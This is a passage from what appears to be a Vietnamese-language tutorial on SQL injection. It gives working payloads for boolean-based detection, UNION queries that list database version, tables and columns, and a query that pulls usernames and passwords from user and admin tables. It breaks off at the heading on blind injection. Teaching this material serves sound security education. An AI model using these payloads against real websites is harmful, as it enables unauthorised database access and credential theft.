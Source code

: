 Chúc mừng! Bạn vừa tự "tố" mình rằng website vulnerable với SQL injection.

**Boolean-based Discovery:**
```
https://vulnerable-site.com/product?id=1 AND 1=1  // Trang load bình thường
https://vulnerable-site.com/product?id=1 AND 1=2  // Trang bị lỗi hoặc không load
```

### **Information Gathering**

Một khi xác định được injection point, hacker sẽ thu thập thông tin về database:

**Database Version:**
```sql
' UNION SELECT VERSION()--
```

**Table Names:**
```sql
' UNION SELECT table_name FROM information_schema.tables--
```

**Column Names:**
```sql
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--
```

### **Data Extraction**

Đây là lúc mọi thứ trở nên nghiêm trọng:
```sql
' UNION SELECT username, password FROM users--
```

## Các Loại SQL Injection: "Gia Đình Nhà Sqli"

### **In-band SQL Injection**
*"Loại thẳng thắn, không che giấu"*

**Error-based:**
Lỗi database được hiển thị trực tiếp trên webpage. Giống như việc bạn la hét "TÔI ĐANG BỊ HACK" trên speaker.

```sql
-- Input: ' OR 1=1 UNION SELECT null,@@version,null--
-- Error: Duplicate column name 'version 5.7.29-log'
```

**Union-based:**
Sử dụng UNION operator để kết hợp kết quả của câu query gốc với câu query độc hại.

```sql
' UNION SELECT null,username,password FROM admin--
```

### **Inferential SQL Injection (Blind)**
*"Loại bí ẩn, phải đoán mò"*
